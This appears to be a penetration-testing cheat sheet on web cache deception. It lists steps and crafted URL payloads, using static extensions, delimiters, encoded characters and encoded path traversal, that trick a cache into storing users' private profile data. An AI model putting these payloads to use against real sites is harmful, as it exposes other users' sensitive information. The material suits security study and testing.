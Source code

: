 # Summary
1. Identify possible sensitive Informaiton stored in the Web Cache
2. Find Requests that are Cached to understand the caching rules
3. Try to find different ways to store the sensitive Informaiton from 1. in the Cache

## ID target Information
```
 Sensitive Information that is generated dynamicly needs to be fetsch from the server
 e.g.  /user/{UserID}/profileInfo/
```
## ID Cache rules
### Cached Responses
```
Find different requestes that might be cached
Watch response-times cached responses are faster
Look at response Headders such as:
X-Cache hit //From cache
X-Cache miss //From server
X-Cache dynamic //should not by cached
X-Cache refresh //used to be cached but needed to be refreshed
Cache-Control  public, max-age=2419200 //might indicate Cache --> further testing response time
```
### Test Cache Rules
```
Check for different extensions: .js .css .ico .exe other seen in previos step
Check for different delimiters
```
### Path mapping exploit
```
No Change in respose if Ptach is Changed
/user/{UserID}/profileInfo/
/user/{UserID}/profileInfo/asd
/user/{UserID}/profileInfo/asd.js
/user/{UserID}/profileInfo/asd.css
```
### Delimiters
```
Find Delimiters that are used by the origen server not the cache
/profileInfo;asd.js
/profileInfo.css
/profileInfo%00asd.js
```
### Different encodings
```
/profileInfo%23asd.js 
Orinin server migh encode to /profileInfo#asd.js and serve info
Cache might not decode and interprets /profileInfo%23asd.js  
```
### Cache based on Path normalization
```
Some Caches use specific Path for Cache rules e.g.
/static
/assets
/scripts
/resources
Try Path Treversal to trick Cache make sure the extension is not the trigger for Caching(remove all else)
/assets/..%2fprofileInfo  // Check if Origin Server servers /profileInfo
/assets/..%2fprofileInfo/asd.css
Check Cache respose to Path Trevs choose already Cached Respose
/aaa/..%2fassets/js/stockCheck.js
If still read from Cache Path is normalized 
If it does not Chache there might be a rule based on the /assets Path 
Check after Needed Path
assets/..%2fjs/stockCheck.js
If Read from Cache the Cache normalizises the Url 
If Cached there migh be potetial for Web Cache deception
```
#### Exploit Path normalization
```
1.Origin Server normalizes Path Cache does not:
<static-CahceRule-Path>/..%2f<targetPath>
/assets/..%2fprofileInfo
2.Cache normalizes Path Origin Server does not:
<targetPath>%2f%2e%2e%2f<static-CacheRule-Path>
/profileInfo%2f%2e%2e/assets
If origin server returns error not Info we need a delimiter useed by the origin server not the Cache e.g.
/profileInfo;%2f%2e%2e/assets
```
## Filename Cache Rules
```
Some files such as robots.txt, index.html, favicon.ico might be cached
That can be exploited in similar fasion as the Path with different normalizations
/asd%2f%2e%2e%2frobots.txt
/profile;%2f%2e%2e%2f/favicon,ico
Cache server needs to resolve the PathTrev the Origen needs not to
```
